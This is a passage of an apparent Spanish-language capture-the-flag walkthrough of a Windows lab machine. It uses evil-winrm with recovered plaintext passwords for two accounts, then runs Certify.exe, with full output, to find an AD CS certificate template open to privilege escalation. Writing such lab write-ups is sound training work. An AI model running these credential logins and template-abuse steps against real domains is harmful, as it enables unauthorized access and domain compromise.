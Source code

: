 - Usamos este usuario y contraseña para acceder por `Winrm` a la máquina víctima:

```bash
$evil-winrm -i 10.129.165.120 -u sql_svc -p REGGIE1234ronnie
```

- Haciendo una búsqueda dentro del sistema, vemos que en el directorio "C:" existe una carpeta `"SQLServer"` y dentro de esta hay una llamada `"Logs"`, accedemos y leemos lo que hay en el archivo contenido.

- Si buscamos bien, encontraremos como intento de acceso fallido un usuario y contraseña, la cual usaremos con `Winrm` para acceder al sistema como el usuario "Ryan.Cooper":

```bash
$evil-winrm -i 10.129.165.120 -u Ryan.Cooper -p NuclearMosquito3
```

- Encontramos la primera flag en el directorio `C:\Users\Ryan.Cooper\Desktop`


#  ESCALANDO PRIVILEGIOS:



# Explotación de certificado vulnerable (template):


- Transferimos el binario de [Certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Certify.exe) a la máquina víctima y hacemos un escaneo de `templates` vulnerables de certificados:

```
C:./Certify.exe find /vulnerable
```

```js
[!] Vulnerable Certificates Templates :
    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
        WriteOwner Principals       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
```